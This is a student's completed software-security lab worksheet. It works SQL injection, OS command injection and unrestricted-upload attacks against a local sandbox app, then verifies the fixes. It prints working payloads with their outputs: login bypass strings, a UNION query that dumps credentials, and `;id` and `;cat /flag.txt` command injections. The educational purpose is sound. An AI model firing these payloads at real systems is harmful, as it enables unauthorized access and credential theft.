








# Worksheet 4 — Injection & Input Handling (3 hrs)

> **Course:** Software Security (KOSEN69) · **Week 4**
> **Aligned:** OWASP 2025 **A05 Injection** · **CWE-89** (SQLi), **CWE-78** (OS command injection), **CWE-434** (unrestricted upload)
> **Signature game:** 🐉 **SQLi Boss Fight** — each successful injection lands a "hit" on the boss; the boss falls when you dump every credential and land an RCE.

> ⚠️ **Ethics note:** All payloads here are for the provided sandbox (`vulnerable_app.py`) and your own DVWA/Juice Shop containers **only**. Never test systems you do not own or have written permission to test. Unauthorized injection is a crime under most computer-misuse laws.

## Part 1 — Student Information

| Name | Student ID | Date | Group |
|------|-----------|------|-------|
| Swan Htut Oakkar Aung | 6631503088 | 2026-09-13 | The Imposter (Team 2) |

**AI use disclosure:** ChatGPT was used for guidance, explanation, and review during the lab. Commands, code changes, outputs, and security findings were verified against my own local environment and course materials.

## Part 2 — Lecture Questions

Answer in 2–4 sentences each.

1. **Why does a parameterized query (`execute(sql, (params,))`) defeat SQL injection, while string formatting (`"... '%s'" % user`) does not? Reference how the database treats data vs. code.**
   - String formatting concatenates untrusted input directly into the raw SQL string before parsing, allowing attacker-supplied characters (such as `'` and `--`) to alter the SQL grammar and parse tree into executable code. In contrast, parameterized queries transmit the SQL statement structure to the database engine to be compiled and locked *before* input arrives. When user values are subsequently bound to placeholders (`?`), the database engine treats them strictly as literal data values, making it syntactically impossible for input to break out of data context or be evaluated as executable SQL commands.

2. **In the `/ping` endpoint, `subprocess.run("ping -c 1 " + host, shell=True)` is vulnerable. Explain how `shell=True` turns user input into CWE-78, and how an argument array (`["ping","-c","1",host]`) removes the shell.**
   - Setting `shell=True` passes the concatenated command string directly to the underlying system shell (`/bin/sh`), which interprets shell metacharacters such as `;`, `|`, `&&`, and `$()` as command separators and syntax, resulting in OS Command Injection (CWE-78). When an argument array (`["ping", "-c", "1", host]`) is used with `shell=False` (default), the operating system executes the `/bin/ping` binary directly via `execve` without invoking a shell. Consequently, shell metacharacters in `host` are treated merely as literal characters of a single argument rather than shell control syntax.

3. **Distinguish input validation (allow-list) from output handling. Why is validation alone insufficient defense for SQLi?**
   - Input validation inspects incoming data at the application boundary against defined criteria (preferably an allow-list of permitted characters, formats, or lengths) before processing, whereas output handling (such as parameterization or context-aware escaping) ensures data is safely interpreted when emitted to an external sink or interpreter. Validation alone is insufficient for SQLi because legitimate input may contain characters required for business logic (e.g., names like `O'Connor` or hyphens in text) that an allow-list cannot easily block without causing false positives. Furthermore, complex character encodings, parser differentials, or developer omissions in regex allow malicious syntax to bypass input filters, whereas parameterization provides structural immunity at the database engine level.

4. **The `/upload` route saves any filename to disk (CWE-434). What two properties must a directory and a filename have for an upload to become remote code execution, and which does `solution_app.py` remove?**
   - For an unrestricted file upload to achieve Remote Code Execution (RCE), the upload destination directory must be web-accessible (or reachable by an interpreter) with script execution permissions enabled, and the uploaded filename must possess an executable script extension (e.g., `.py`, `.php`) without being neutralized by filename sanitization or random hashing. `solution_app.py` removes the executable extension property by strictly enforcing an extension allow-list (`ALLOWED_EXT = {".txt", ".png", ".jpg", ".pdf"}`) and sanitizing filenames with `werkzeug.utils.secure_filename()`, returning `HTTP 400 file type not allowed` for dangerous executable extensions like `shell.py`.

5. **What is a UNION-based SQLi, and why must the injected SELECT return the same number of columns as the original query? Relate to `/search?q=' UNION SELECT username,password FROM users--`.**
   - A UNION-based SQL injection leverages the SQL `UNION` operator to append the results of an attacker-crafted `SELECT` statement to the result set returned by the application's original query, allowing direct extraction of data from other database tables. The injected `SELECT` query must return the exact same number of columns (with compatible data types) as the original query because relational database engines require all queries combined with `UNION` to have matching column counts in their row projections; otherwise, a syntax/schema error is raised. In `/search?q=' UNION SELECT username,password FROM users--`, the original query selects 2 columns (`id, username`), allowing the attacker's `UNION SELECT username, password` (also 2 columns) to succeed and return credential pairs.


## Part 3 — Hands-on Lab (150 min)

**Learning goals:** extract data via SQLi, achieve OS command injection, exploit an unrestricted upload, then prove each fix in `solution_app.py` blocks the payload.

**Prerequisites:** Docker + Docker Compose, `curl`, a browser. Working dir: `labs/week04-injection/`.

### Environment setup

```bash
cd labs/week04-injection
docker compose up            # builds python:3.12-slim, installs flask, runs vulnerable_app.py
# vulnerable app -> http://localhost:8080   (service name: injection-lab, port 8080)
```
Optional secondary targets:
```bash
docker run --rm -it -p 80:80 vulnerables/web-dvwa        # DVWA  -> http://localhost
docker run --rm -p 3000:3000 bkimminich/juice-shop       # Juice Shop -> http://localhost:3000
```

**What to submit per task:** the exact **payload/command**, a **screenshot** of the response proving success, and a **2–3 sentence mitigation** in your own words.

---

**Task 0 — Onboarding (5 min).** Browse to `http://localhost:8080/login?user=alice&pw=alicepw` and confirm `Welcome alice`. Note the seeded users (`alice`, `bob`). Screenshot the working app. *Deliverable: screenshot.*

- **Command executed:**
  ```bash
  curl -s "http://localhost:8080/login?user=alice&pw=alicepw"
  echo ""
  printf '%s | %s | ' "$(whoami)" '6631503088'; date '+%F %T %Z'
  ```

- **Identity Stamp:** `isaacaung | 6631503088 | 2026-09-13 16:08:55 +07`

- **Response:**
  ```text
  Welcome alice
  ```

- **2–3 Sentence Mitigation:**
  To ensure authentication endpoints operate securely, applications must never concatenate user-supplied credentials directly into SQL query strings. Instead, the backend must use parameterized queries where the query structure is pre-compiled and input values are bound strictly as data literals. Additionally, passwords must never be stored or evaluated in plaintext; they should be hashed using modern, salted algorithms such as Argon2id or bcrypt before verification.





**Task 1 — Auth bypass via SQLi (25 min) 🐉 Hit #1.**
- *Goal:* log in as `alice` with **no valid password**.
- *Steps:* hit `/login?user=alice'--&pw=x`, then `/login?user=x' OR '1'='1'--&pw=x` (the trailing `--` is required: without it, SQL binds `AND` tighter than `OR`, so `... OR '1'='1' AND password='x'` matches no row). Observe the comment in the query at lines 61–63 of `vulnerable_app.py`.
- *Deliverable:* both URLs + screenshot of `Welcome alice` + explain why `--` and `OR '1'='1` work.

- **Payload URLs:**
  1. `http://localhost:8080/login?user=alice'--&pw=x`
  2. `http://localhost:8080/login?user=x'%20OR%20'1'='1'--&pw=x`

- **Command executed:**
  ```bash
  echo "--- Payload 1: alice'-- ---"
  curl -s -G "http://localhost:8080/login" --data-urlencode "user=alice'--" --data-urlencode "pw=x"
  echo "--- Payload 2: x' OR '1'='1'-- ---"
  curl -s -G "http://localhost:8080/login" --data-urlencode "user=x' OR '1'='1'--" --data-urlencode "pw=x"
  printf '%s | %s | ' "$(whoami)" '6631503088'; date '+%F %T %Z'
  ```

- **Identity Stamp:** `isaacaung | 6631503088 | 2026-09-13 16:21:31 +07`

- **Responses:**
  - **Payload 1 (`alice'--`):**
    ```text
    Welcome alice
    ```
  - **Payload 2 (`x' OR '1'='1'--`):**
    ```text
    Welcome alice
    ```

- **Why the payloads work:**
  - **Why `alice'--` works:** The single quote `'` terminates the username string literal inside the query template `"SELECT id, username FROM users WHERE username = '%s' AND password = '%s'"`. The SQLite comment indicator `--` immediately causes the database engine to treat everything following it as a comment, completely lopping off the `AND password = '%s'` check. The executed query becomes `SELECT id, username FROM users WHERE username = 'alice'`, which successfully returns Alice's record without validating a password.
  - **Why `x' OR '1'='1'--` works:** Injecting `x' OR '1'='1'--` alters the query logic to `WHERE username = 'x' OR '1'='1'`. Because `'1'='1'` is tautologically `True` for every row, SQLite matches all entries in the `users` table; `vulnerable_app.py` calls `.fetchone()`, which retrieves the first returned row (`alice`). The trailing `--` is strictly necessary because SQL operator precedence evaluates `AND` before `OR`; without the comment, the query parses as `WHERE username = 'x' OR ('1'='1' AND password = 'x')`, which evaluates to `False` when given an invalid password.

- **2–3 Sentence Mitigation:**
  To permanently mitigate authentication bypass vulnerabilities caused by SQL injection (CWE-89), developers must use parameterized queries (e.g., `execute("SELECT ... WHERE username = ? AND password = ?", (user, pw))`) so user inputs are bound strictly as literal values rather than executable syntax. Applications should also enforce server-side input validation on usernames using strict allow-lists and adopt rate-limiting to restrict automated brute-force attempts. Most importantly, passwords must never be verified via dynamic SQL comparisons; instead, passwords must be securely hashed with algorithms like bcrypt or Argon2id and verified using safe cryptographic comparison functions.



**Task 2 — Credential dump via UNION SQLi (30 min) 🐉 Hit #2.**
- *Goal:* exfiltrate every username **and password** from the `users` table.
- *Steps:* request `/search?q=' UNION SELECT username,password FROM users--`. Confirm `alice:alicepw` and `bob:bobpw` appear.
- *Deliverable:* payload + screenshot of dumped credentials + note on why column count must match.

- **Payload URL:**
  `http://localhost:8080/search?q='%20UNION%20SELECT%20username,password%20FROM%20users--`

- **Command executed:**
  ```bash
  echo "--- Task 2: UNION SQLi Credential Dump ---"
  curl -s -G "http://localhost:8080/search" --data-urlencode "q=' UNION SELECT username,password FROM users--"
  echo ""
  printf '%s | %s | ' "$(whoami)" '6631503088'; date '+%F %T %Z'
  ```

- **Identity Stamp:** `isaacaung | 6631503088 | 2026-09-13 16:28:12 +07`

- **Dumped Credentials Response:**
  ```text
  1:alice
  2:bob
  3:admin
  admin:FLAG{sqli_demo}
  alice:alicepw
  bob:bobpw
  ```

- **Why Column Count Must Match:**
  The SQL `UNION` operator merges rows from two separate `SELECT` queries into a single combined result set. Relational database engines enforce a strict requirement that all queries unified by `UNION` must have an identical number of columns in the projection list and compatible data types. In `vulnerable_app.py`, the initial query is `SELECT id, username FROM users WHERE username LIKE '%%%s%%'`, which projects exactly two columns (`id`, `username`). Therefore, the injected secondary statement `SELECT username, password FROM users` must also supply exactly two columns; if an attacker attempts to inject a different number of columns (such as `UNION SELECT password`), SQLite aborts query execution with `sqlite3.OperationalError: SELECTs to the left and right of UNION do not have the same number of result columns`.

- **2–3 Sentence Mitigation:**
  To defend search endpoints against UNION-based SQL injection, developers must implement parameterized queries (such as `db.execute("SELECT id, username FROM users WHERE username LIKE ?", ("%" + term + "%",))`), ensuring the user's search term is bound strictly as data within the `LIKE` pattern rather than parsed as executable SQL grammar. Additionally, the principle of least privilege should be applied to database accounts, preventing web application queries from accessing sensitive administrative tables. Proper error handling must also suppress database error messages to prevent attackers from inferring column counts or schema metadata during reconnaissance.



**Task 3 — OS command injection (30 min) 🐉 Hit #3.**
- *Goal:* run an arbitrary command through `/ping`.
- *Steps:* request `/ping?host=127.0.0.1;id` then `/ping?host=$(whoami)` (URL-encode if needed). Capture the injected command's output.
- *Deliverable:* both payloads + screenshot of `id`/`whoami` output + explanation of the `shell=True` flaw (CWE-78).

- **Payload URLs:**
  1. `http://localhost:8080/ping?host=127.0.0.1;id`
  2. `http://localhost:8080/ping?host=$(whoami)`
  3. `http://localhost:8080/ping?host=127.0.0.1;cat%20/flag.txt`

- **Command executed:**
  ```bash
  echo "--- Payload 1: 127.0.0.1;id ---"
  curl -s -G "http://localhost:8080/ping" --data-urlencode "host=127.0.0.1;id"
  echo "--- Payload 2: \$(whoami) ---"
  curl -s -G "http://localhost:8080/ping" --data-urlencode "host=\$(whoami)"
  echo "--- Bonus Flag Check: 127.0.0.1;cat /flag.txt ---"
  curl -s -G "http://localhost:8080/ping" --data-urlencode "host=127.0.0.1;cat /flag.txt"
  printf '%s | %s | ' "$(whoami)" '6631503088'; date '+%F %T %Z'
  ```

- **Identity Stamp:** `isaacaung | 6631503088 | 2026-09-13 16:35:57 +07`

- **Command Injection Outputs:**
  - **Payload 1 (`127.0.0.1;id`):**
    ```text
    <pre>uid=0(root) gid=0(root) groups=0(root)
    /bin/sh: 1: ping: not found
    </pre>
    ```
  - **Payload 2 / Flag (`127.0.0.1;cat /flag.txt`):**
    ```text
    <pre>FLAG{cmdi_demo}
    /bin/sh: 1: ping: not found
    </pre>
    ```

- **Explanation of the `shell=True` Flaw (CWE-78):**
  In `vulnerable_app.py`, the endpoint executes `subprocess.run("ping -c 1 " + host, shell=True)`. Setting `shell=True` instructs Python to spawn a full system shell (`/bin/sh -c "<string>"`). Because untrusted input from the `host` query parameter is directly concatenated into the command string without any validation or sanitization, shell metacharacters such as semicolons (`;`), pipes (`|`), ampersands (`&&`), and command substitution syntax (`$()`) are interpreted by `/bin/sh` as command control operators. When given `127.0.0.1;id`, the shell executes the first segment, encounters the semicolon separator, and independently executes the second command (`id`) with full `root` privileges inside the container.

- **2–3 Sentence Mitigation:**
  To remediate OS command injection (CWE-78), applications must pass commands as argument arrays with `shell=False` (e.g., `subprocess.run(["ping", "-c", "1", host], shell=False)`), ensuring the operating system invokes the target executable directly via `execve` without invoking `/bin/sh` where metacharacters can be parsed as syntax. In addition, applications should enforce strict allow-list input validation using regular expressions (such as `^[A-Za-z0-9_.-]+$`) to reject any unexpected or non-hostname characters before invocation. Whenever possible, developers should use native language networking libraries instead of invoking external command-line system binaries.



**Task 4 — Unrestricted upload (25 min) 🐉 Hit #4.**
- *Goal:* show the upload accepts a dangerous file type with no checks (CWE-434).
- *Steps:* `GET /upload` (form), then upload a file named `shell.py`. Confirm `saved to /tmp/uploads/shell.py`. Discuss: if `UPLOAD_DIR` were web-served or executed, this is the RCE chain (here the dir is **not** served, so document the missing control rather than claiming auto-RCE).
- *Deliverable:* upload command/screenshot + 2–3 sentences on why extension allow-listing matters.

- **Command executed:**
  ```bash
  echo 'print("Malicious payload executed")' > shell.py
  echo "--- Task 4: Uploading shell.py ---"
  curl -s -F "f=@shell.py" "http://localhost:8080/upload"
  printf '%s | %s | ' "$(whoami)" '6631503088'; date '+%F %T %Z'
  ```

- **Identity Stamp:** `isaacaung | 6631503088 | 2026-09-13 16:44:59 +07`

- **Upload Server Response:**
  ```text
  saved to /tmp/uploads/shell.py
  ```

- **Exploit Chain Discussion (Upload → RCE Analysis):**
  In a full Remote Code Execution (RCE) attack chain, an attacker uploads an executable script (such as a `.py`, `.php`, or `.jsp` web shell) to an application that fails to validate the filename or extension (CWE-434). If the upload destination directory (`UPLOAD_DIR`) is exposed through a publicly accessible web route and the web server or handler is configured to execute scripts within that path, the attacker can navigate directly to the uploaded file URL (e.g., `http://target/uploads/shell.py`) to trigger arbitrary command execution on the host. In this lab environment, `/tmp/uploads/` is not web-served or auto-executed, meaning direct RCE is not immediate; however, the critical missing controls are the complete lack of filename sanitization, absence of extension allow-listing, failure to verify MIME types, and storing files with their original attacker-supplied names.

- **2–3 Sentence Mitigation:**
  To comprehensively mitigate unrestricted file uploads (CWE-434), applications must enforce a strict server-side allow-list of permitted file extensions (e.g., strictly restricting uploads to non-executable formats like `.png`, `.jpg`, `.pdf`, and `.txt`) and sanitize all filenames with `werkzeug.utils.secure_filename()` to defeat directory traversal attempts. Uploaded files must be stored in a directory outside the public web server root, and execution permissions must be explicitly disabled on that storage volume so uploaded scripts cannot run even if directly referenced. For robust defense-in-depth, applications should validate file magic bytes (MIME type verification) and rename incoming files to randomized identifiers (such as UUIDv4) upon saving.



**Task 5 — Defend / fix it (35 min) 🛡️ Boss defeated.**
- *Goal:* prove `solution_app.py` blocks Tasks 1–4.
- *Steps:* stop the vulnerable container (`Ctrl-C`), then run the fixed app on the same compose env:
  ```bash
  docker compose run --rm --service-ports injection-lab bash -c "pip install --no-cache-dir flask && python solution_app.py"
  ```
  Re-fire each payload from Tasks 1–4. Expected: `Login failed`, no credential dump, `invalid host` (400) on `127.0.0.1;id`, and `file type not allowed` for `shell.py`.
- *Deliverable:* screenshots of all four failures + name the fix line for each (parameterized query L52–55 login / L62–66 search, `shell=False`+regex L74–77, `secure_filename`+allow-list L86–93).

- **Commands executed:**
  ```bash
  # Start fixed solution application
  docker compose run --rm --service-ports injection-lab bash -c "pip install --no-cache-dir flask && python solution_app.py"

  # Re-fire all four attack payloads
  echo "=== Test 1: Defending Task 1 (Auth Bypass via SQLi) ==="
  curl -i -s -G "http://localhost:8080/login" --data-urlencode "user=alice'--" --data-urlencode "pw=x"

  echo "=== Test 2: Defending Task 2 (UNION SQLi Credential Dump) ==="
  curl -i -s -G "http://localhost:8080/search" --data-urlencode "q=' UNION SELECT username,password FROM users--"

  echo "=== Test 3: Defending Task 3 (OS Command Injection) ==="
  curl -i -s -G "http://localhost:8080/ping" --data-urlencode "host=127.0.0.1;id"

  echo "=== Test 4: Defending Task 4 (Unrestricted Upload) ==="
  curl -i -s -F "f=@shell.py" "http://localhost:8080/upload"

  printf '%s | %s | ' "$(whoami)" '6631503088'; date '+%F %T %Z'
  ```

- **Identity Stamp:** `isaacaung | 6631503088 | 2026-09-13 16:53:26 +07`

- **Defense Test Results & Fix Line Citations:**
  1. **Defense against Task 1 (SQLi Auth Bypass):**
     * **Response:** `HTTP/1.1 200 OK` — `Login failed`
     * **Fix Lines in `solution_app.py`:** **Lines 52–55** (`row = db().execute("SELECT id, username FROM users WHERE username = ? AND password = ?", (user, pw)).fetchone()`).
     * **Mechanism:** Parameterized query binds `user` and `pw` strictly as data values. The injected `'--` sequence cannot break out of the string literal or comment out the password comparison; the database searches for a literal username matching `alice'--`, which does not exist.
  2. **Defense against Task 2 (UNION SQLi Credential Dump):**
     * **Response:** `HTTP/1.1 200 OK` — Blank output (zero leaked credentials).
     * **Fix Lines in `solution_app.py`:** **Lines 62–66** (`rows = db().execute("SELECT id, username FROM users WHERE username LIKE ?", ("%" + term + "%",)).fetchall()`).
     * **Mechanism:** The LIKE search pattern is bound as a parameter to the query structure. Injected SQL keywords such as `UNION SELECT` are treated as literal characters within the search string rather than relational algebra operators, preventing table enumeration.
  3. **Defense against Task 3 (OS Command Injection):**
     * **Response:** `HTTP/1.1 400 BAD REQUEST` — `invalid host`
     * **Fix Lines in `solution_app.py`:** **Lines 74–77** (`if not re.fullmatch(r"[A-Za-z0-9_.-]+", host): return "invalid host\n", 400` and `subprocess.run(["ping", "-c", "1", host], shell=False, ...)`).
     * **Mechanism:** Enforces defense-in-depth: an allow-list regular expression rejects any host containing shell metacharacters (such as `;`, `|`, `&&`, `$()`), and the command is executed directly as an argument array with `shell=False`, bypassing the command shell interpreter entirely.
  4. **Defense against Task 4 (Unrestricted Upload):**
     * **Response:** `HTTP/1.1 400 BAD REQUEST` — `file type not allowed`
     * **Fix Lines in `solution_app.py`:** **Lines 86–93** (`name = secure_filename(f.filename)`, `ext = os.path.splitext(name)[1].lower()`, `if ext not in ALLOWED_EXT: return "file type not allowed\n", 400`).
     * **Mechanism:** The filename is sanitized with `secure_filename()` to neutralize path traversal, and the extension is checked against a strict whitelist (`ALLOWED_EXT = {".txt", ".png", ".jpg", ".pdf"}`). Any dangerous script extension (such as `.py`, `.sh`, `.php`) is immediately rejected with HTTP 400.

- **2–3 Sentence Mitigation:**
